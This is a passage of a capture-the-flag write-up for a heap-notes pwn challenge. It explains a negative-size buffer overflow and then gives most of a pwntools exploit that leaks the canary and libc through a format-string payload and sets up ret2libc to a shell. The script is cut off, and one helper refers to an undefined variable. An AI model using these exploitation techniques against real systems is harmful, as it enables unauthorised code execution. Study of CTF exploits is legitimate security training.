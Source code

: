 as you can see, it will get our index, and reach to our note struct. then, it will read from the user `note->size` bytes. but remember that `note->size` is a negative number,but `read` takes an unsigned int as a paramater, so we have a huge bof here.
In my exploit, I first used the fsb, to leak all the stack canary, and libc address then I did a basic ret2libc and jumped to `system(/bin/sh)`.

Full exploit:

```py
from pwn import *

e = ELF('./aftermath')
libc = ELF('./libc.so.6')


if args.GDB:
    p = gdb.debug("./aftermath")
elif args.REMOTE:
    p = remote('aftermath-0.chals.kitctf.de', 1337, ssl=True) # TODO: Proper domain
else:
    p = process("./aftermath")

count = 0

def add_note(size, note):
    global count
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Note: ')
    p.sendline(str(note))
    p.recvline()
    count+=1
    return count-1

def read_note(idx):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
    p.recvuntil('Note: ')
    return p.recvuntil('1.').replace(b'1.', b'')[:-1]

def edit_note(idx, note):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
    p.recvuntil('New Note: ')
    p.send(note)

def arb_write(what, where, n):
    write_note = add_note(n, w)


leak_note = add_note(0xff - 1, "%1$p|%15$p|%11$p|%9$p")
stack, libc_leak, pie, canary = [int(i, 16) for i in read_note(leak_note).split(b'|')]

libc.address = libc_leak - 0x23510
e.address = pie - 0x1778
main_ret_address = stack + 0x2168

POPRDI = e.address + 0x0000000000001823 #pop rdi ; ret
RET = e.address + 0x000000000000101a #align stack for system
```